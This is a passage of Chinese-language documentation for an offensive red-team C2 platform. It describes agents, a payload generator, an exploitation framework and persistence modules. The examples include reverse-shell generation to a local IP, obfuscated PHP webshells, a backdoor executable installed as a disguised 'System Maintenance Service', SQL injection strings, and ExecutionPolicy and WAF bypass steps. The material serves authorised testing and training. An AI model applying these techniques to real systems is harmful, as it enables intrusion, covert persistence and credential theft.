

# Dragon-V Red Team Operations Platform (RVOP) 完整文档

## 📋 目录

1. [平台概述](#平台概述)
2. [架构设计](#架构设计)
3. [组件详解](#组件详解)
4. [安装部署](#安装部署)
5. [配置说明](#配置说明)
6. [使用指南](#使用指南)
7. [API接口](#api接口)
8. [安全须知](#安全须知)
9. [故障排除](#故障排除)
10. [性能优化](#性能优化)
11. [扩展开发](#扩展开发)
12. [法律声明](#法律声明)

---

## 🎯 平台概述

### 什么是RVOP？

Dragon-V Red Team Operations Platform (RVOP) 是一个专业的红队作战平台，提供完整的命令控制、载荷生成、自动化利用、持久化管理和靶场控制功能。这个平台模拟了真实APT组织的攻击基础设施，为授权的红队测试和安全研究人员提供强大的工具集。

### 核心特性

- **C2基础设施**: 完整的命令控制服务器，支持多代理管理
- **智能载荷生成**: 多种平台和语言的恶意载荷生成，支持混淆和加密
- **自动化利用框架**: 12种常见漏洞的自动化利用，支持链式攻击
- **持久化管理**: 6种持久化机制创建和管理，支持Windows/Linux/Web环境
- **靶场控制器**: Docker环境下的靶场管理，支持多种漏洞环境模板
- **Web管理界面**: 直观的Web控制台，支持实时监控和操作
- **链式攻击**: 多步骤自动化攻击链，支持条件触发
- **规避技术**: 先进的绕过安全检测的技术

### 技术栈

- **后端**: Python 3.8+ + asyncio + aiohttp
- **数据库**: SQLite + SQLAlchemy
- **Web界面**: aiohttp + Jinja2
- **容器化**: Docker + Docker Compose
- **监控**: psutil + 自定义健康检查

### 适用场景

- 授权的红队测试和渗透测试
- 安全培训和意识教育
- 防御方案验证和评估
- 安全研究和技术开发
- APT攻击模拟和演练

---

## 🏗️ 架构设计

### 整体架构

```
┌─────────────────────────────────────────────────────────────────┐
│                        Dragon-V RVOP                           │
├─────────────────────────────────────────────────────────────────┤
│  ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐   │
│  │   Web UI        │  │   CLI Client   │  │   API Client    │   │
│  │  (Port 8081)    │  │  (Direct)      │  │  (RESTful)     │   │
│  └─────────────────┘  └─────────────────┘  └─────────────────┘   │
├─────────────────────────────────────────────────────────────────┤
│                     主编排器 (Orchestrator)                      │
│                   (中央协调与调度)                               │
├─────────────────────────────────────────────────────────────────┤
│  ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐   │
│  │     C2 Server   │  │  Payload Gen   │  │ Exploit Frame   │   │
│  │  (Port 8080)    │  │   Generator    │  │    work        │   │
│  └─────────────────┘  └─────────────────┘  └─────────────────┘   │
│  ┌─────────────────┐  ┌─────────────────┐  ┌─────────────────┐   │
│  │  Persistence    │  │  Range Ctrl    │  │   Event Hub    │   │
│  │  Manager        │  │    Controller   │  │   (Bus)        │   │
│  └─────────────────┘  └─────────────────┘  └─────────────────┘   │
├─────────────────────────────────────────────────────────────────┤
│                     数据存储层 (Data Layer)                      │
│                   (SQLite + 文件系统)                          │
├─────────────────────────────────────────────────────────────────┤
│                     基础设施层 (Infrastructure)                  │
│                   (Docker + 网络 + 日志)                        │
└─────────────────────────────────────────────────────────────────┘
```

### 组件交互流程

1. **用户通过Web界面或CLI发起操作请求**
2. **主编排器解析请求，协调各个组件**
3. **C2服务器管理代理连接和任务分发**
4. **载荷生成器根据目标信息生成合适的载荷**
5. **利用框架执行自动化攻击**
6. **持久化管理器创建和维护后门**
7. **靶场控制器管理测试环境**
8. **所有结果通过事件总线汇总到Web界面**

### 数据流向



---

## 🛠️ 组件详解

### 1. C2服务器 (c2_server.py)

#### 功能特性

- **代理注册**: 新代理注册和身份验证
- **心跳监控**: 代理存活状态监控
- **任务分发**: 向代理下发攻击任务
- **结果收集**: 收集攻击结果和输出
- **数据持久化**: SQLite数据库存储
- **HTTPS支持**: 可选SSL/TLS加密通信

#### 核心类

```python
class Agent:
    """代理信息类"""
    agent_id: str        # 唯一标识符
    hostname: str        # 主机名
    platform: str        # 平台类型
    ip_address: str      # IP地址
    last_seen: datetime  # 最后活跃时间
    first_seen: datetime # 首次连接时间
    status: AgentStatus  # 状态
    capabilities: List[str] # 能力列表
    sleep_interval: int  # 睡眠间隔
    encryption_key: str  # 加密密钥

class Task:
    """任务类"""
    task_id: str         # 任务ID
    agent_id: str        # 目标代理ID
    command: str         # 执行命令
    parameters: Dict     # 参数
    status: TaskStatus   # 任务状态
    created_at: datetime # 创建时间
    started_at: datetime # 开始时间
    completed_at: datetime # 完成时间
    output: str         # 输出结果
    error: str          # 错误信息
    timeout: int         # 超时时间
```

#### API端点

```python
# 代理管理
POST /api/register       # 代理注册
POST /api/heartbeat       # 心跳检测
GET  /api/agents          # 获取代理列表

# 任务管理
POST /api/task/create    # 创建任务
GET  /api/tasks          # 获取任务列表
POST /api/task/result    # 提交任务结果

# 配置管理
GET  /api/platform/config # 获取平台配置
```

### 2. 载荷生成器 (payload_generator.py)

#### 功能特性

- **多平台支持**: PowerShell, JSP, PHP, Python, EXE, DLL
- **目标识别**: 根据目标指纹推荐最佳载荷
- **混淆加密**: 自动混淆和加密载荷
- **模块化设计**: 易于扩展新的载荷类型
- **模板系统**: 内置多种载荷模板

#### 载荷类型

```python
# 支持的载荷类型
PAYLOAD_TYPES = {
    'powershell': 'PowerShell载荷',
    'jsp': 'JSP/Servlet载荷',
    'php': 'PHP载荷',
    'python': 'Python载荷',
    'exe': 'Windows可执行文件',
    'dll': 'Windows动态链接库',
    'java': 'Java字节码',
    'shellcode': '机器码'
}

# 混淆技术
OBFUSCATION_TECHNIQUES = {
    'base64': 'Base64编码',
    'rot13': 'ROT13替换',
    'hex': '十六进制编码',
    'custom': '自定义混淆',
    'aes': 'AES加密'
}
```

#### 使用示例

```python
# 创建载荷生成器
generator = PayloadGenerator('output_dir')

# 生成PowerShell反向 shell
ps_payload = generator.generate_powershell_reverse_shell(
    host='192.168.1.100',
    port=4444
)

# 生成混淆后的PHP Webshell
php_webshell = generator.generate_php_webshell(obfuscate=True)

# 获取载荷列表
payloads = generator.get_generated_payloads()
```

### 3. 自动化利用框架 (exploitation_framework.py)

#### 功能特性

- **模块化利用**: 12种常见漏洞的利用模块
- **链式攻击**: 多步骤攻击链支持
- **智能选择**: 根据目标信息自动选择最佳载荷
- **并发控制**: 可配置的最大并发数
- **结果分析**: 自动分析利用结果

#### 利用模块

```python
EXPLOIT_MODULES = {
    'sqli': {
        'name': 'SQL注入利用',
        'description': '自动化SQL注入漏洞利用',
        'techniques': ['union_based', 'error_based', 'time_based_blind', 'boolean_blind'],
        'targets': ['MySQL', 'PostgreSQL', 'MSSQL', 'Oracle', 'SQLite']
    },
    'file_upload': {
        'name': '文件上传利用',
        'description': 'Web文件上传漏洞利用',
        'techniques': ['webshell_upload', 'bypass_mime_check', 'bypass_file_extension_filter'],
        'targets': ['.php', '.jsp', '.asp', '.aspx', '.cgi']
    },
    'xss': {
        'name': 'XSS利用',
        'description': '跨站脚本攻击利用',
        'techniques': ['reflected_xss', 'stored_xss', 'dom_xss'],
        'targets': ['search_parameters', 'login_forms', 'comment_fields']
    },
    'command_injection': {
        'name': '命令注入利用',
        'description': '操作系统命令注入利用',
        'techniques': ['shell_metacharacters', 'command_chaining', 'command_obfuscation'],
        'targets': ['ping', 'traceroute', 'nslookup', 'curl', 'wget']
    },
    'lfi_rfi': {
        'name': '本地/远程文件包含',
        'description': '本地文件包含和远程文件包含利用',
        'techniques': ['lfi_traversal', 'rfi_injection', 'php_filter'],
        'targets': ['include', 'require', 'file_get_contents']
    }
}
```

#### 链式攻击示例

```python
# 定义攻击链
attack_chain = {
    'name': 'Web Shell Chain',
    'description': '上传webshell → 获取shell → 提取数据 → 持久化',
    'steps': [
        {
            'module': 'file_upload',
            'payload': 'webshell_php',
            'target': 'upload.php',
            'next_condition': 'webshell_created'
        },
        {
            'module': 'command_injection',
            'payload': 'reverse_shell',
            'target': 'webshell.php',
            'next_condition': 'reverse_shell_success'
        },
        {
            'module': 'sqli',
            'payload': 'union_based',
            'target': 'database.php',
            'next_condition': 'database_dumped'
        }
    ]
}

# 执行链式攻击
result = framework.execute_chain_attack(attack_chain)
```

### 4. 持久化管理器 (persistence_manager.py)

#### 功能特性

- **多种持久化**: 支持6种不同的持久化机制
- **跨平台**: Windows/Linux/Web环境全覆盖
- **检测与移除**: 支持持久化状态检测和移除
- **数据库管理**: SQLite存储持久化配置
- **权限管理**: 根据权限自动选择合适的持久化方法

#### 持久化方法

```python
PERSISTENCE_METHODS = {
    'windows_service': {
        'name': 'Windows服务',
        'description': '创建Windows系统服务',
        'platform': 'windows',
        'risk_level': 'high',
        'requires_admin': True,
        'persistence_level': 'system'
    },
    'cron_job': {
        'name': '计划任务',
        'description': '创建Linux cron任务',
        'platform': 'linux',
        'risk_level': 'medium',
        'requires_admin': False,
        'persistence_level': 'user'
    },
    'webshell': {
        'name': 'Webshell',
        'description': '创建Web后门',
        'platform': 'web',
        'risk_level': 'high',
        'requires_admin': False,
        'persistence_level': 'application'
    },
    'registry_autorun': {
        'name': '注册表自启动',
        'description': '修改注册表实现自启动',
        'platform': 'windows',
        'risk_level': 'high',
        'requires_admin': True,
        'persistence_level': 'system'
    },
    'scheduled_task': {
        'name': '计划任务',
        'description': '创建Windows计划任务',
        'platform': 'windows',
        'risk_level': 'medium',
        'requires_admin': False,
        'persistence_level': 'user'
    },
    'wmi_subscription': {
        'name': 'WMI订阅',
        'description': '创建WMI事件订阅',
        'platform': 'windows',
        'risk_level': 'low',
        'requires_admin': True,
        'persistence_level': 'system'
    }
}
```

#### 使用示例

```python
# 创建持久化管理器
pmanager = PersistenceManager('persistence.db')

# 为Windows主机创建服务持久化
persistence_id = pmanager.create_persistence(
    method='windows_service',
    target_host='192.168.1.100',
    target_platform='windows',
    options={
        'service_name': 'MaintenanceService',
        'display_name': 'System Maintenance Service',
        'description': 'Performs system maintenance tasks',
        'executable_path': 'C:\\Temp\\backdoor.exe',
        'start_type': 'auto'
    }
)

# 检测持久化状态
detected = pmanager.detect_persistence('192.168.1.100', 'windows_service')

# 移除持久化
removed = pmanager.remove_persistence(persistence_id)
```

### 5. 靶场控制器 (range_controller.py)

#### 功能特性

- **Docker管理**: 完整的Docker容器生命周期管理
- **环境模板**: 预定义的多种漏洞环境模板
- **网络配置**: 隔离、路由、桥接等多种网络模式
- **自动清理**: 定期清理未使用的环境
- **监控日志**: 容器状态和资源使用监控

#### 环境模板

```python
ENVIRONMENT_TEMPLATES = {
    'web_app': {
        'name': 'Web Application Environment',
        'description': '包含常见Web漏洞的应用环境',
        'image': 'dvwa/dvwa:latest',
        'ports': ['80:80', '443:443'],
        'environment': {
            'MYSQL_ROOT_PASSWORD': 'root',
            'DVWA_SECURITY': 'low'
        },
        'network': 'web_network'
    },
    'sql_injection': {
        'name': 'SQL Injection Range',
        'description': 'SQL注入漏洞训练环境',
        'image': 'webpwnized/sqli-labs:latest',
        'ports': ['80:80'],
        'network': 'sqli_network'
    },
    'xss_range': {
        'name': 'XSS Training Range',
        'description': '跨站脚本攻击训练环境',
        'image': 'snoopysecurity/xss-challenge:latest',
        'ports': ['80:80'],
        'network': 'xss_network'
    }
}
```

#### 使用示例

```python
# 创建靶场控制器
controller = RangeController('range_config.yaml')

# 创建Web应用环境
env_config = {
    'name': 'DVWA Training',
    'template': 'web_app',
    'config': {
        'port': 8080,
        'custom_config': {'security_level': 'medium'}
    }
}

environment_id = controller.create_environment(env_config)

# 启动环境
controller.start_environment(environment_id)

# 获取环境状态
status = controller.get_environment_status(environment_id)

# 停止环境
controller.stop_environment(environment_id)

# 清理环境
controller.cleanup_environment(environment_id)
```

---

## 🚀 安装部署

### 系统要求

```yaml
最低要求:
- Python 3.8+
- 4GB RAM
- 2GB 磁盘空间
- 网络连接

推荐配置:
- Python 3.9+
- 8GB RAM
- 10GB 磁盘空间
- SSD存储
- Docker支持
```

### 快速部署

#### 1. 一键部署

```bash
# 进入项目目录
cd /path/to/dragon_v_hunter/rvop

# 运行部署脚本
python deploy.py

# 部署选项
python deploy.py --config custom_config.json  # 使用自定义配置
python deploy.py --redeploy                   # 重新部署
```

#### 2. 手动部署

```bash
# 创建虚拟环境
python -m venv venv

# 激活虚拟环境
# Linux/macOS:
source venv/bin/activate
# Windows:
venv\Scripts\activate

# 安装依赖
pip install -r requirements.txt

# 创建目录结构
mkdir -p logs certs payloads ranges backups temp

# 生成SSL证书
openssl req -x509 -newkey rsa:4096 -keyout certs/server.key \
  -out certs/server.crt -days 365 -nodes

# 启动平台
python main_orchestrator.py
```

### Docker部署

#### 1. 使用Docker Compose

```bash
# 启动完整平台
docker-compose up -d

# 查看状态
docker-compose ps

# 查看日志
docker-compose logs -f

# 停止平台
docker-compose down
```

#### 2. 单独部署组件

```bash
# 仅部署C2服务器
docker run -d --name rvop-c2 \
  -p 8080:8080 -p 8443:8443 \
  -v $(pwd)/logs:/app/logs \
  -v $(pwd)/certs:/app/certs \
  dragon-v/rvop:c2-server

# 仅部署Web界面
docker run -d --name rvop-web \
  -p 8081:8081 \
  -v $(pwd)/logs:/app/logs \
  dragon-v/rvop:web-interface
```

### 验证安装

```bash
# 检查服务状态
./status.sh

# 测试API连接
curl http://localhost:8080/api/agents

# 访问Web界面
http://localhost:8081

# 查看日志
tail -f logs/rvop_orchestrator.log
```

---

## ⚙️ 配置说明

### 主配置文件 (config/rvop_config.json)

```json
{
  "platform": {
    "name": "Dragon-V RVOP",
    "version": "1.0.0",
    "description": "专业红队作战平台"
  },
  "deployment": {
    "target": "development",
    "create_directories": true,
    "setup_virtualenv": true,
    "install_dependencies": true,
    "generate_ssl": false,
    "create_service": false,
    "setup_docker": false
  },
  "directories": {
    "logs": "logs",
    "certs": "certs",
    "payloads": "payloads",
    "ranges": "ranges",
    "backups": "backups",
    "temp": "temp"
  },
  "components": {
    "c2_server": {
      "enabled": true,
      "port": 8080,
      "ssl_port": 8443,
      "enable_ssl": false
    },
    "web_interface": {
      "enabled": true,
      "port": 8081,
      "host": "0.0.0.0"
    }
  }
}
```

### C2服务器配置 (c2_config.json)

```json
{
  "host": "0.0.0.0",
  "port": 8080,
  "ssl_port": 8443,
  "ssl_cert": "certs/server.crt",
  "ssl_key": "certs/server.key",
  "database": "c2.db",
  "heartbeat_interval": 30,
  "agent_timeout": 120,
  "enable_ssl": true,
  "encryption_key": "default_rvop_key_change_me"
}
```

### 利用框架配置 (config/exploitation_config.json)

```json
{
  "exploit_modules": {
    "sql_injection": {
      "enabled": true,
      "risk_level": "high",
      "techniques": [
        "union_based",
        "error_based",
        "time_based_blind",
        "boolean_blind"
      ],
      "payloads": {
        "union_based": [
          "' OR 1=1 --",
          "' UNION SELECT NULL --",
          "' UNION SELECT username,password FROM users --"
        ]
      }
    }
  },
  "max_concurrent_exploits": 5,
  "timeout": 300,
  "retry_attempts": 3
}
```

### 靶场配置 (config/range_config.yaml)

```yaml
range:
  name: "Dragon-V Training Range"
  network_mode: "bridged"
  network_segment: "192.168.100.0/24"
  max_concurrent_environments: 10

environment_templates:
  web_app:
    name: "Web Application Environment"
    image: "dvwa/dvwa:latest"
    ports:
      - "80:80"
    environment:
      MYSQL_ROOT_PASSWORD: "root"
      DVWA_SECURITY: "low"

networks:
  isolated_network:
    name: "isolated_network"
    driver: "bridge"
    ipam:
      config:
        - subnet: "192.168.101.0/24"
```

---

## 📖 使用指南

### Web界面使用

#### 1. 访问Web界面

```bash
# 默认地址
http://localhost:8081

# 访问不同页面
http://localhost:8081/dashboard     # 仪表板
http://localhost:8081/c2/agents    # C2代理管理
http://localhost:8081/exploitation/modules  # 利用模块
http://localhost:8081/persistence/methods  # 持久化管理
http://localhost:8081/ranges/environments  # 靶场环境
http://localhost:8081/operations  # 操作管理
```

#### 2. 主要功能操作

**仪表板**
- 查看平台整体状态
- 监控代理和任务统计
- 查看最近的操作记录

**C2代理管理**
- 查看在线代理列表
- 向代理下发任务
- 监控代理心跳状态

**利用模块**
- 选择目标漏洞类型
- 配置攻击参数
- 执行自动化攻击

**持久化管理**
- 创建不同类型的后门
- 检测持久化状态
- 移除不需要的后门

### CLI命令使用

#### 1. 启动脚本

```bash
# 启动平台
./start.sh

# 停止平台
./stop.sh

# 查看状态
./status.sh

# 重启平台
./stop.sh && ./start.sh
```

#### 2. 直接运行组件

```bash
# 启动C2服务器
python rvop/c2_server.py

# 启动Web界面
python rvop/web_interface.py

# 启动主平台
python rvop/main_orchestrator.py

# 运行测试
python rvop/integration_tests.py
```

### API使用

#### 1. 基本认证

```python
import requests

# 基础URL
base_url = "http://localhost:8080/api"

# 设置认证头
headers = {
    "Content-Type": "application/json",
    "Authorization": "Bearer your_api_key"
}
```

#### 2. 代理管理API

```python
# 注册新代理
agent_data = {
    "agent_id": "test_agent_1",
    "hostname": "test_host",
    "platform": "windows",
    "capabilities": ["command_execution"],
    "sleep_interval": 30
}

response = requests.post(
    f"{base_url}/register",
    json=agent_data,
    headers=headers
)

# 获取代理列表
response = requests.get(f"{base_url}/agents", headers=headers)
agents = response.json()

# 发送心跳
heartbeat_data = {
    "agent_id": "test_agent_1",
    "status": "online"
}

response = requests.post(
    f"{base_url}/heartbeat",
    json=heartbeat_data,
    headers=headers
)
```

#### 3. 任务管理API

```python
# 创建任务
task_data = {
    "agent_id": "test_agent_1",
    "command": "whoami",
    "parameters": {},
    "timeout": 300
}

response = requests.post(
    f"{base_url}/task/create",
    json=task_data,
    headers=headers
)

# 获取任务列表
response = requests.get(f"{base_url}/tasks", headers=headers)
tasks = response.json()

# 提交任务结果
result_data = {
    "task_id": "task_123",
    "output": "administrator",
    "error": ""
}

response = requests.post(
    f"{base_url}/task/result",
    json=result_data,
    headers=headers
)
```

### 示例工作流

#### 1. 基本攻击流程

```bash
# 1. 创建操作
curl -X POST http://localhost:8081/api/operations \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Web Attack Test",
    "description": "Test web application attack",
    "targets": ["http://test-site.com/login.php"],
    "type": "exploitation"
  }'

# 2. 执行SQL注入攻击
curl -X POST http://localhost:8081/api/exploitation/execute \
  -H "Content-Type: application/json" \
  -d '{
    "target": "http://test-site.com/login.php",
    "module": "sqli",
    "parameters": {
      "parameter": "username",
      "technique": "union_based",
      "database": "users"
    }
  }'

# 3. 查看攻击结果
curl http://localhost:8081/api/exploitation/results

# 4. 创建持久化
curl -X POST http://localhost:8081/api/persistence/create \
  -H "Content-Type: application/json" \
  -d '{
    "method": "webshell",
    "target": "http://test-site.com/upload.php",
    "options": {
      "shell_type": "php",
      "obfuscate": true
    }
  }'
```

#### 2. 靶场环境使用

```bash
# 1. 创建训练环境
curl -X POST http://localhost:8081/api/ranges/environments \
  -H "Content-Type: application/json" \
  -d '{
    "name": "DVWA Training",
    "template": "web_app",
    "config": {
      "port": 8080,
      "security_level": "low"
    }
  }'

# 2. 启动环境
curl -X POST http://localhost:8081/api/ranges/environments/env_123/start

# 3. 查看环境状态
curl http://localhost:8081/api/ranges/environments/env_123

# 4. 停止环境
curl -X POST http://localhost:8081/api/ranges/environments/env_123/stop
```

---

## 🔌 API接口

### 认证

```python
# API密钥获取
POST /api/auth/login
{
    "username": "admin",
    "password": "password123"
}

# 返回
{
    "status": "success",
    "api_key": "your_api_key_here",
    "expires_in": 3600
}
```

### 平台管理API

```python
# 获取平台状态
GET /api/platform/status
{
    "status": "running",
    "uptime": "2h 30m",
    "stats": {
        "total_agents": 5,
        "active_agents": 3,
        "total_tasks": 15,
        "completed_tasks": 12
    }
}

# 获取平台配置
GET /api/platform/config

# 更新平台配置
POST /api/platform/config
{
    "config": {
        "max_concurrent_agents": 10,
        "heartbeat_interval": 30
    }
}
```

### C2服务器API

```python
# 代理管理
GET  /api/agents           # 获取所有代理
GET  /api/agents/{id}      # 获取特定代理
POST /api/agents           # 注册新代理
PUT  /api/agents/{id}      # 更新代理信息
DELETE /api/agents/{id}    # 注销代理

# 任务管理
GET  /api/tasks            # 获取任务列表
GET  /api/tasks/{id}       # 获取特定任务
POST /api/tasks            # 创建任务
PUT  /api/tasks/{id}       # 更新任务
POST /api/tasks/{id}/cancel # 取消任务
POST /api/tasks/{id}/delete # 删除任务

# 结果提交
POST /api/task/result      # 提交任务结果
```

### 载荷生成器API

```python
# 载荷管理
GET  /api/payloads                 # 获取载荷列表
GET  /api/payloads/{id}            # 获取特定载荷
POST /api/payloads                 # 生成新载荷
DELETE /api/payloads/{id}          # 删除载荷

# 载荷生成
POST /api/payloads/generate
{
    "type": "powershell",
    "target_info": {
        "platform": "windows",
        "arch": "x64"
    },
    "options": {
        "reverse_shell": true,
        "host": "192.168.1.100",
        "port": 4444,
        "obfuscate": true
    }
}

# 载荷下载
GET /api/payloads/{id}/download
```

### 利用框架API

```python
# 模块管理
GET /api/exploitation/modules      # 获取利用模块列表
GET /api/exploitation/modules/{id} # 获取特定模块信息

# 利用执行
POST /api/exploitation/execute
{
    "target": "http://test-site.com/login.php",
    "module": "sqli",
    "parameters": {
        "parameter": "username",
        "technique": "union_based",
        "database": "users"
    }
}

# 结果管理
GET /api/exploitation/results             # 获取利用结果
GET /api/exploitation/results/{id}        # 获取特定结果
DELETE /api/exploitation/results/{id}      # 删除结果
```

### 持久化管理API

```python
# 持久化方法
GET /api/persistence/methods       # 获取持久化方法列表
GET /api/persistence/methods/{id} # 获取特定方法信息

# 持久化操作
POST /api/persistence/create
{
    "method": "windows_service",
    "target": "192.168.1.100",
    "options": {
        "service_name": "MaintenanceService",
        "executable_path": "C:\\Temp\\service.exe"
    }
}

GET  /api/persistence/list        # 获取持久化列表
POST /api/persistence/{id}/remove # 移除持久化
```

### 靶场控制器API

```python
# 环境管理
GET /api/ranges/environments                 # 获取环境列表
GET /api/ranges/environments/{id}            # 获取特定环境
POST /api/ranges/environments                # 创建环境
PUT  /api/ranges/environments/{id}           # 更新环境
DELETE /api/ranges/environments/{id}         # 删除环境

# 环境操作
POST /api/ranges/environments/{id}/start    # 启动环境
POST /api/ranges/environments/{id}/stop     # 停止环境
POST /api/ranges/environments/{id}/restart   # 重启环境
POST /api/ranges/environments/{id}/pause    # 暂停环境
POST /api/ranges/environments/{id}/resume   # 恢复环境
```

### 操作管理API

```python
# 操作管理
GET  /api/operations              # 获取操作列表
GET  /api/operations/{id}        # 获取特定操作
POST /api/operations             # 创建操作
PUT  /api/operations/{id}        # 更新操作
DELETE /api/operations/{id}      # 删除操作

# 操作控制
POST /api/operations/{id}/start # 启动操作
POST /api/operations/{id}/stop  # 停止操作
POST /api/operations/{id}/pause # 暂停操作
POST /api/operations/{id}/resume # 恢复操作
```

---

## ⚠️ 安全须知

### 授权使用声明

**⚠️ 重要提醒：本平台仅授权给具备合法授权的红队测试和安全研究人员使用。**

#### 使用限制

1. **授权要求**
   - 必须获得目标系统所有者的书面授权
   - 仅在测试环境中使用
   - 遵守相关法律法规

2. **禁止行为**
   - 不得用于任何未经授权的系统测试
   - 不得用于任何非法活动
   - 不得攻击公共互联网设施
   - 不得泄露敏感数据

3. **风险提示**
   - 本平台包含强大的攻击能力
   - 错误使用可能导致严重后果
   - 使用前请确保获得适当的授权
   - 建议在隔离环境中进行测试

### 安全最佳实践

#### 1. 部署安全

```bash
# 使用非root用户运行
useradd -m -s /bin/bash rvop
su - rvop

# 限制网络访问
ufw allow from 192.168.1.0/24 to any port 8080,8081
ufw deny 8080,8081

# 定期更新
apt update && apt upgrade -y
```

#### 2. 数据保护

```python
# 启用数据加密
platform.config['encryption_key'] = 'strong_random_key_32_bytes'

# 配置SSL/TLS
config['enable_ssl'] = True
config['ssl_cert'] = '/path/to/strong_cert.pem'
config['ssl_key'] = '/path/to/strong_key.pem'

# 启用访问控制
config['api_key_required'] = True
config['allowed_ips'] = ['192.168.1.100', '10.0.0.1']
```

#### 3. 审计日志

```python
# 启用详细日志
logging.basicConfig(
    level=logging.DEBUG,
    format='[%(asctime)s] [%(levelname)s] [%(name)s] %(message)s',
    handlers=[
        logging.FileHandler('/var/log/rvop/audit.log'),
        logging.StreamHandler()
    ]
)

# 记录所有操作
logger.info(f"User {user} executed command: {command}")
logger.info(f"Created agent: {agent_id} from {ip_address}")
logger.info(f"Exploit result: {result} for target {target}")
```

#### 4. 网络隔离

```yaml
# Docker网络配置
networks:
  isolated_network:
    driver: bridge
    internal: true
    ipam:
      config:
        - subnet: 172.20.0.0/16

  red_network:
    driver: bridge
    ipam:
      config:
        - subnet: 192.168.100.0/24
```

#### 5. 权限最小化

```python
# 最小权限配置
minimal_permissions = {
    'read_only': [
        '/api/platform/status',
        '/api/agents',
        '/api/tasks'
    ],
    'write_allowed': [
        '/api/tasks/create',
        '/api/task/result'
    ],
    'admin_only': [
        '/api/platform/config',
        '/api/persistence/create'
    ]
}
```

### 事故处理

#### 1. 意外响应

```python
# 立即停止所有攻击
if detected_unauthorized_access:
    platform.emergency_stop()

# 记录事件
logger.critical("Unauthorized access detected!")
logger.critical(f"Target: {target}")
logger.critical("Action: Stopping all operations")
logger.critical("Notifying security team")

# 通知相关人员
send_alert(
    subject="RVOP: Unauthorized Activity Detected",
    message=f"Unauthorized access detected at {datetime.now()}",
    recipients=["security@company.com"]
)
```

#### 2. 数据泄露预防

```python
# 敏感数据过滤
def sanitize_output(output):
    sensitive_patterns = [
        r'password\s*[:=]\s*[\'"][^\'"]*[\'"]',
        r'api[_-]?key\s*[:=]\s*[\'"][^\'"]*[\'"]',
        r'secret\s*[:=]\s*[\'"][^\'"]*[\'"]',
        r'token\s*[:=]\s*[\'"][^\'"]*[\'"]'
    ]

    sanitized_output = output
    for pattern in sensitive_patterns:
        sanitized_output = re.sub(pattern, '[REDACTED]', sanitized_output)

    return sanitized_output
```

#### 3. 应急响应计划

```bash
# 1. 立即停止平台
./emergency_stop.sh

# 2. 隔离受影响系统
iptables -A INPUT -s <attacker_ip> -j DROP
iptables -A OUTPUT -d <attacker_ip> -j DROP

# 3. 收集证据
mkdir -p /evidence/rvop_breach_$(date +%Y%m%d_%H%M%S)
cp -r /var/log/rvop/* /evidence/rvop_breach_$(date +%Y%m%d_%H%M%S)/
cp -r /opt/rvop/logs/* /evidence/rvop_breach_$(date +%Y%m%d_%H%M%S)/

# 4. 通知相关人员
send_email "security@company.com" "RVOP Breach - Immediate Attention Required"
send_slack "#security-alert" "🚨 RVOP security incident detected"
```

---

## 🔧 故障排除

### 常见问题

#### 1. 启动失败

```bash
# 问题：Python版本过低
# 解决：
python3 -m venv venv
source venv/bin/activate
pip install --upgrade pip
pip install -r requirements.txt

# 问题：端口被占用
# 解决：
sudo lsof -i :8080
sudo kill -9 <PID>
sudo lsof -i :8081
sudo kill -9 <PID>

# 问题：权限不足
# 解决：
chmod +x start.sh
chmod +x stop.sh
chmod +x status.sh
sudo chown -R $USER:$USER /path/to/rvop
```

#### 2. C2服务器问题

```python
# 问题：代理无法连接
# 解决：
1. 检查防火墙设置
   sudo ufw status
   sudo ufw allow 8080

2. 检查网络连接
   netstat -tulpn | grep 8080

3. 检查日志
   tail -f logs/c2_server.log

# 问题：SSL证书错误
# 解决：
1. 重新生成证书
   openssl req -x509 -newkey rsa:4096 -keyout certs/server.key \
     -out certs/server.crt -days 365 -nodes

2. 检查证书路径
   ls -la certs/

3. 验证证书
   openssl x509 -in certs/server.crt -text -noout
```

#### 3. 载荷生成问题

```python
# 问题：PowerShell执行策略限制
# 解决：
1. 设置执行策略
   Set-ExecutionPolicy RemoteSigned -Scope CurrentUser

2. 使用Bypass策略
   powershell -ExecutionPolicy Bypass -File payload.ps1

3. 生成兼容载荷
   generator.generate_powershell_reverse_shell(
       host='192.168.1.100',
       port=4444,
       bypass=True
   )

# 问题：混淆失败
# 解决：
1. 检查混淆配置
   generator.obfuscation_config = {
       'technique': 'base64',
       'level': 'high'
   }

2. 使用不同混淆技术
   payload = generator.obfuscate_payload(
       original_payload,
       technique='rot13'
   )
```

#### 4. 利用框架问题

```python
# 问题：利用超时
# 解决：
1. 增加超时时间
   config['timeout'] = 600  # 10分钟

2. 检查网络连接
   curl -I http://target-site.com

3. 调整并发数
   framework = ExploitationFramework(max_concurrent=1)

# 问题：Payload检测
# 解决：
1. 使用绕过技术
   payload = framework.generate_bypassed_payload(
       target_info,
       technique='encoding'
   )

2. 使用随机化载荷
   payload = framework.generate_randomized_payload()

3. 检查WAF规则
   framework.detect_waf_protection(target_url)
```

#### 5. 持久化问题

```python
# 问题：Windows服务创建失败
# 解决：
1. 检查管理员权限
   net user

2. 验证服务名称唯一性
   sc query | findstr "ServiceName"

3. 检查服务路径
   dir C:\Temp\service.exe

# 问题：Cron任务不执行
# 解决：
1. 检查cron日志
   tail -f /var/log/cron

2. 手动测试任务
   /usr/bin/curl -s http://localhost:8080/api/heartbeat

3. 检查权限
   chmod +x /usr/local/bin/rvop_agent.sh
```

### 性能问题

#### 1. 内存泄漏

```python
# 问题：内存持续增长
# 解决：
